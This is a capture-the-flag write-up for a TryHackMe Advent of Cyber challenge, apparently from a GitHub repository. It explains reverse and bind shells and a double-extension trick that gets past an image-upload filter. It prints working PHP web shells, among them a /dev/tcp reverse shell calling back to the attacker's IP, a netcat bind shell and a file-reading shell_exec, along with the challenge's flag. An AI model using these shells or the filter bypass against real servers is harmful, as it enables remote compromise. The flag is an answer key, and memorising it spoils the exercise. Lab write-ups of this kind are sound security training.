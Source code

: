 # Day 2 - The Elf Strikes Back!

**Date:** 02, December, 2020

**Author:** Dhilip Sanjay S

---
## Reverse Shell
- Attack Box will be listening for incoming connection. The victim will connect back to the attack box (by some malicious script).
- In this example, the PHP script is used to create a reverse shell.

## Bind Shell
- A bind shell is created in the victim and binds to a specific port to listen for an incoming connection from the attack box.
---
## Solutions
### What string of text needs added to the URL to get access to the upload page?
- **Answer:** `?id=Your-ID`
---
### What type of file is accepted by the site?
- **Answer:** image
- **Steps to reproduce:** View source code. You can see that, it will accept files with following extensions:  `.jpg, .jpeg, .png` (which are image extensions).
---
### Bypass the filter and upload a reverse shell.
- To bypass the file upload extension filter: `your-file.(jpg|jpeg|png).php`
- The filter will check the extension after the first dot in the filename. This way, you can upload any file format. 

- Reverse shell is used to obtain the flag. 3 ways to obtain flag using PHP:
1. __Reverse Shell using the pre-written script__
    - Make a copy of the script: `/usr/share/webshells/php/php-reverse-shell.php` 
    - Replace `$ip` and `$port` in the script with your IP Address and the port on which your netcat is listening. 

2. __Reverse Shell using exec command__
    - To obtain Reverse shell without much complicated code.
    - And also netcat is not available in target.

    ```php
    <?php
    echo exec("/bin/bash -i > /dev/tcp/$ip/$port 0<&1 2>&1");
    ?>
    ```
    - **Note:** Replace `$ip` and `$port` with your IP Address and the port on which your netcat is listening.

> In the same way, **bind shell** can be established:
> ```php 
> <?php
> exec("nc -lp $port -e /bin/sh");
> ?>
> ```
> - But `nc` is not installed on the server. So, it is not possible in this case.
> - To connect to the bind shell, on the attack machine type the command: `nc $target_ip $port`.

3. __Print the flag directly__
    - We know that the flag is in the file `/var/www/flag.txt`. So, we can use PHP to directly fetch and display the flag for us.
    ```php
    <?php
    echo shell_exec("cat /var/www/flag.txt");
    ?>
    ```
---
### In which directory are the uploaded files stored?
- **Answer:** /uploads/
- Use `dirbuster` to find the folders.

---
### Activate your reverse shell and catch it in a netcat listener!
- To activate the reverse shell, go to the `/uploads/` directory and click on the file you uploaded.
- To listen to the reverse shell:
    ```bash
    sudo nc -lvnp $port
    ``` 
---
### What is the flag in `/var/www/flag.txt`?
-  **Answer:** THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}

---

## Reference Links
- [Netcat without netcat](https://www.youtube.com/watch?v=hZ6TjWuepqw)
- [IO redirection](https://tldp.org/LDP/abs/html/io-redirection.html)
- [Meaning of 2>&1 (STDERR to STDOUT)](https://stackoverflow.com/questions/818255/in-the-shell-what-does-21-mean)

[Back to Advent of Cyber 2](/TryHackMe/Advent%20of%20Cyber%202) 